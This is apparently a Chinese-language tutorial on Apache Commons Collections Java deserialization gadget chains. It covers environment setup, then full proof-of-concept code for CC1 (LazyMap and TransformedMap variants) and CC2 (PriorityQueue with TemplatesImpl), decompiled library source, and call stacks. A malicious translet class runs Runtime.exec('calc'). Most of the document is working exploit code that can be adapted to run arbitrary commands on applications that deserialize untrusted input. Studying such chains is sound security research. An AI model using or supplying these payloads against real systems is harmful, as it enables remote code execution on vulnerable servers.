环境搭建 打开idea,新建一个maven项目
选择jdk1.7

贴入pom.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?xml version="1.0" encoding="UTF-8"?> <project xmlns ="http://maven.apache.org/POM/4.0.0" xmlns:xsi ="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation ="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd" > <modelVersion > 4.0.0</modelVersion > <groupId > org.example</groupId > <artifactId > CommonsCollections_practice</artifactId > <version > 1.0-SNAPSHOT</version > <dependencies > <dependency > <groupId > commons-collections</groupId > <artifactId > commons-collections</artifactId > <version > 3.1</version > </dependency > </dependencies > </project >
再进行 mvn install

可以看到再外部库中已经加入所需组件

同时在设置里面修改

不然运行java代码会报以下错误
java: System Java Compiler was not found in classpath
至此环境搭建完成
CC1 POP链分析 关键类为LazyMap和TransformedMap
LazyMap链 poc如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.LazyMap;import java.io.ByteArrayInputStream;import java.io.ByteArrayOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Constructor;import java.lang.reflect.InvocationHandler;import java.lang.reflect.Proxy;import java.util.HashMap;import java.util.Map;public class CommonsCollections1 public static void main (String[] args) Transformer[] transformers = new Transformer[] { new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod" , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime" , new Class[0 ]}), new InvokerTransformer("invoke" , new Class[]{Object.class, Object[].class}, new Object[]{null , new Object[0 ]}), new InvokerTransformer("exec" , new Class[]{String.class}, new Object[]{"calc" }) }; Transformer chainedTransformer = new ChainedTransformer(transformers); Map uselessMap = new HashMap(); Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer); try { Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class); constructor.setAccessible(true ); InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap); Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), handler); InvocationHandler handler1 = (InvocationHandler) constructor.newInstance(Override.class, mapProxy); ByteArrayOutputStream baos = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(baos); oos.writeObject(handler1); oos.flush(); oos.close(); ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray()); ObjectInputStream ois = new ObjectInputStream(bais); ois.readObject(); ois.close(); } catch (Exception e) { e.printStackTrace(); } } }
运行,成功弹出计算机

首先我们反序列化的类为AnnotationInvocationHandler
在类AnnotationInvocationHandler,type和memberValues是可控的
当其被反序列化后,会在readObject()中调用Iterator var4 = this.memberValues.entrySet().iterator();
我们控制memberValues为AnnotationInvocationHandler封装的一个代理对象,则会触发AnnotationInvocationHandler的invoke(),而在invoke()方法中会调用Object var6 = this.memberValues.get(var4);
假如我们令代理的对象memberValues为LazyMap对象,则会触发LazyMap的get()方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 ... class AnnotationInvocationHandler implements InvocationHandler , Serializable private static final long serialVersionUID = 6182022883658399397L ; private final Class<? extends Annotation> type; private final Map<String, Object> memberValues; private transient volatile Method[] memberMethods = null ; AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) { Class[] var3 = var1.getInterfaces(); if (var1.isAnnotation() && var3.length == 1 && var3[0 ] == Annotation.class) { this .type = var1; this .memberValues = var2; } else { throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type." ); } } ... private void readObject (ObjectInputStream var1) throws IOException, ClassNotFoundException var1.defaultReadObject(); AnnotationType var2 = null ; try { var2 = AnnotationType.getInstance(this .type); } catch (IllegalArgumentException var9) { throw new InvalidObjectException("Non-annotation type in annotation serial stream" ); } Map var3 = var2.memberTypes(); Iterator var4 = this .memberValues.entrySet().iterator(); while (var4.hasNext()) { Entry var5 = (Entry)var4.next(); String var6 = (String)var5.getKey(); Class var7 = (Class)var3.get(var6); if (var7 != null ) { Object var8 = var5.getValue(); if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) { var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]" )).setMember((Method)var2.members().get(var6))); } } } } ... public Object invoke (Object var1, Method var2, Object[] var3) String var4 = var2.getName(); Class[] var5 = var2.getParameterTypes(); if (var4.equals("equals" ) && var5.length == 1 && var5[0 ] == Object.class) { return this .equalsImpl(var3[0 ]); } else if (var5.length != 0 ) { throw new AssertionError("Too many parameters for an annotation method" ); } else { byte var7 = -1 ; switch (var4.hashCode()) { case -1776922004 : if (var4.equals("toString" )) { var7 = 0 ; } break ; case 147696667 : if (var4.equals("hashCode" )) { var7 = 1 ; } break ; case 1444986633 : if (var4.equals("annotationType" )) { var7 = 2 ; } } switch (var7) { case 0 : return this .toStringImpl(); case 1 : return this .hashCodeImpl(); case 2 : return this .type; default : Object var6 = this .memberValues.get(var4); if (var6 == null ) { throw new IncompleteAnnotationException(this .type, var4); } else if (var6 instanceof ExceptionProxy) { throw ((ExceptionProxy)var6).generateException(); } else { if (var6.getClass().isArray() && Array.getLength(var6) != 0 ) { var6 = this .cloneArray(var6); } return var6; } } } } ... } ----- AnnotationInvocationHandler#readObject() this .memberValues.entrySet().iterator() AnnotationInvocationHandler#invoke() Object var6 = this .memberValues.get(var4) LazyMap#get()
接着进入到LazyMap类中
在该类中factory是可控的,并且是Transformer类型的
这时候我们可以控制factory为ChainedTransformer实例
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 ... public class LazyMap extends AbstractMapDecorator implements Map , Serializable private static final long serialVersionUID = 7990956402564206740L ; protected final Transformer factory; ... public static Map decorate (Map map, Transformer factory) return new LazyMap(map, factory); } ... protected LazyMap (Map map, Transformer factory) super (map); if (factory == null ) { throw new IllegalArgumentException("Factory must not be null" ); } else { this .factory = factory; } } ... public Object get (Object key) if (!super .map.containsKey(key)) { Object value = this .factory.transform(key); super .map.put(key, value); return value; } else { return super .map.get(key); } } } ----- 调用为 LazyMap#get() Object value = this .factory.transform(key) ChainedTransformer#transform()
之后便是循环调用ChainedTransformer的transform()方法通过一系列反射执行命令
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 ... public class ChainedTransformer implements Transformer , Serializable static final long serialVersionUID = 3514945074733160196L ; private final Transformer[] iTransformers; ... public ChainedTransformer (Transformer[] transformers) this .iTransformers = transformers; } public Object transform (Object object) for (int i = 0 ; i < this .iTransformers.length; ++i) { object = this .iTransformers[i].transform(object); } return object; } ....
调用栈 1 2 3 4 5 6 7 8 9 10 11 CommonsCollections1#main() ois.readObject(); AnnotationInvocationHandler#readObject() this.memberValues.entrySet().iterator() AnnotationInvocationHandler#invoke() Object var6 = this.memberValues.get(var4) LazyMap#get() Object value = this.factory.transform(key) ChainedTransformer#transform() ... 执行命令
poc如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 import org.apache.commons.collections.*;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.TransformedMap;import java.io.ByteArrayInputStream;import java.io.ByteArrayOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.annotation.Target;import java.lang.reflect.Constructor;import java.util.HashMap;import java.util.Map;public class CommonsCollections1_2 public static void main (String[] args) throws Exception Transformer[] transformers = new Transformer[] { new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod" , new Class[] {String.class, Class[].class }, new Object[] {"getRuntime" , new Class[0 ] }), new InvokerTransformer("invoke" , new Class[] {Object.class, Object[].class }, new Object[] {null , new Object[0 ] }), new InvokerTransformer("exec" , new Class[] {String.class }, new Object[] {"calc.exe" }) }; Transformer transformerChain = new ChainedTransformer(transformers); Map innerMap = new HashMap(); innerMap.put("value" , "value" ); Map outerMap = TransformedMap.decorate(innerMap, null , transformerChain); Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class); ctor.setAccessible(true ); Object instance = ctor.newInstance(Target.class, outerMap); ByteArrayOutputStream baos = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(baos); oos.writeObject(instance); oos.flush(); oos.close(); ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray()); ObjectInputStream ois = new ObjectInputStream(bais); ois.readObject(); ois.close(); } }
运行后成功执行命令

我们还是从反序列化的触发开始入手
反序列化的入口为AnnotationInvocationHandler的readObject()函数
在满足if条件下最后会执行var5.setValue(...);,从而调用var5的setValue()函数方法
我们控制memberValues传入TransformedMap封装的Map实例,最后会调用TransformedMap的setValue()方法,TransformedMap并没有这个方法,于是上溯到AbstractInputCheckedMapDecorator调用该setValue()方法

可以看到然后进入TransformedMap的checkSetValue()方法
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 ... class AnnotationInvocationHandler implements InvocationHandler , Serializable private static final long serialVersionUID = 6182022883658399397L ; private final Class<? extends Annotation> type; private final Map<String, Object> memberValues; private transient volatile Method[] memberMethods = null ; AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) { Class[] var3 = var1.getInterfaces(); if (var1.isAnnotation() && var3.length == 1 && var3[0 ] == Annotation.class) { this .type = var1; this .memberValues = var2; } else { throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type." ); } } ... private void readObject (ObjectInputStream var1) throws IOException, ClassNotFoundException var1.defaultReadObject(); AnnotationType var2 = null ; try { var2 = AnnotationType.getInstance(this .type); } catch (IllegalArgumentException var9) { throw new InvalidObjectException("Non-annotation type in annotation serial stream" ); } Map var3 = var2.memberTypes(); Iterator var4 = this .memberValues.entrySet().iterator(); while (var4.hasNext()) { Entry var5 = (Entry)var4.next(); String var6 = (String)var5.getKey(); Class var7 = (Class)var3.get(var6); if (var7 != null ) { Object var8 = var5.getValue(); if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) { var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]" )).setMember((Method)var2.members().get(var6))); } } } } }
在TransformedMap类中我们可以控制valueTransformer为ChainedTransformer实例,从而使得在checkSetValue()方法中会调用ChainedTransformer的transform方法,最后经过一系列transform方法的调用造成命令执行
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 ... public class TransformedMap extends AbstractInputCheckedMapDecorator implements Serializable private static final long serialVersionUID = 7023152376788900464L ; protected final Transformer keyTransformer; protected final Transformer valueTransformer; public static Map decorate (Map map, Transformer keyTransformer, Transformer valueTransformer) return new TransformedMap(map, keyTransformer, valueTransformer); } protected TransformedMap (Map map, Transformer keyTransformer, Transformer valueTransformer) super (map); this .keyTransformer = keyTransformer; this .valueTransformer = valueTransformer; } ... protected Object checkSetValue (Object value) return this .valueTransformer.transform(value); }
调用栈 1 2 3 4 5 6 7 8 9 CommonsCollections1_2#main() ois.readObject(); AnnotationInvocationHandler#readObject() var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6))); TransformedMap#checkSetValue() this.valueTransformer.transform(value) ChainedTransformer#transform() ... 执行命令
CC2 CC1链在jdk8u71版本以上已经被修复了
重新构造了一条新的利用链（CC2链）,关键类为PriorityQueue,TemplatesImpl
pom.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 <?xml version="1.0" encoding="UTF-8"?> <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd"> <modelVersion>4.0.0</modelVersion> <groupId>org.example</groupId> <artifactId>CC2</artifactId> <version>1.0-SNAPSHOT</version> <properties> <maven.compiler.source>8</maven.compiler.source> <maven.compiler.target>8</maven.compiler.target> </properties> <dependencies> <dependency> <groupId>org.apache.commons</groupId> <artifactId>commons-collections4</artifactId> <version>4.0</version> </dependency> <dependency> <groupId>org.javassist</groupId> <artifactId>javassist</artifactId> <version>3.22.0-GA</version> </dependency> </dependencies> </project>
jar包用maven下载失败可以先直接打开网址下载jar包到本地
再打开idea的项目结构自行找路径加载jar包

POP链分析 poc如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 import javassist.ClassPool;import javassist.CtClass;import org.apache.commons.collections4.comparators.TransformingComparator;import org.apache.commons.collections4.functors.InvokerTransformer;import java.io.*;import java.lang.reflect.Constructor;import java.lang.reflect.Field;import java.util.PriorityQueue;public class CommonsCollections2 public static class s1mple } public static void main (String[] args) throws Exception ClassPool classPool = ClassPool.getDefault(); CtClass ctClass = classPool.getCtClass("TestTemplatesImpl" ); byte [] bytes = ctClass.toBytecode(); Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" ); Constructor<?> constructor = aClass.getDeclaredConstructor(new Class[]{}); Object TemplatesImpl_instance = constructor.newInstance(); Field bytecodes = aClass.getDeclaredField("_bytecodes" ); bytecodes.setAccessible(true ); bytecodes.set(TemplatesImpl_instance, new byte [][]{bytes}); Field name = aClass.getDeclaredField("_name" ); name.setAccessible(true ); name.set(TemplatesImpl_instance, "TestTemplatesImpl" ); InvokerTransformer transformer = new InvokerTransformer("newTransformer" , null , null ); TransformingComparator transformer_comparator = new TransformingComparator(transformer); PriorityQueue queue = new PriorityQueue(2 ); queue.add(1 ); queue.add(1 ); Field field = queue.getClass().getDeclaredField("comparator" ); field.setAccessible(true ); field.set(queue, transformer_comparator); field = queue.getClass().getDeclaredField("queue" ); field.setAccessible(true ); Object[] objects = new Object[]{TemplatesImpl_instance, TemplatesImpl_instance}; field.set(queue, objects); ByteArrayOutputStream barr = new ByteArrayOutputStream(); ObjectOutputStream oos = new ObjectOutputStream(barr); oos.writeObject(queue); oos.close(); ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray())); Object object = ois.readObject(); } }
恶意类TestTemplatesImpl
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;public class TestTemplatesImpl extends AbstractTranslet public TestTemplatesImpl () super (); try { Runtime.getRuntime().exec("calc" ); }catch (Exception e){ e.printStackTrace(); } } public void transform (DOM document, SerializationHandler[] handlers) throws TransletException } public void transform (DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException } }
运行代码,成功执行命令
